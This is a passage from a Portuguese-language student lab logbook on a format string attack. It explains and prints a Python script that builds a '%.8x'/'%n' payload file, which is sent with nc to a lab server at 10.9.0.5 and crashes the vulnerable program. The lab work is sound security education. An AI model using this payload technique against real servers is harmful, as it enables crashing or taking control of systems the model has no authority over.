 *Figura 3: Output esperado no terminal, mostrando as variáveis e endereços no servidor após a receção da mensagem de teste.*

O ficheiro build_string.py é um script Python desenvolvido para gerar um payload que explora uma vulnerabilidade de "format string" em um programa de servidor vulnerável. A função principal do script é construir um ficheiro, badfile, que contém dados específicos formatados para manipular a memória do programa-alvo e provocar um comportamento anómalo, como um crash.

``` python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0xbfffeeee
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "%.8x"*12 + "%n"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```
Compilámos o script build_string.py e enviámos o payload para o servidor:

![Figura 4](/Images/LOGBOOK6/Task1_image4.png)

*Figura 4: Execução do script build_string.py para gerar o ficheiro badfile com o payload para a Task 1 e envio do conteúdo de badfile ao servidor, mostrando o uso do comando nc para conectar ao endereço 10.9.0.5..*

Observámos o printout do container para verificar se o programa myprintf() não exibe a mensagem de retorno “Returned properly”. Como tal não aconteceu, podemos concluir que o ataque de formato de string teve sucesso.
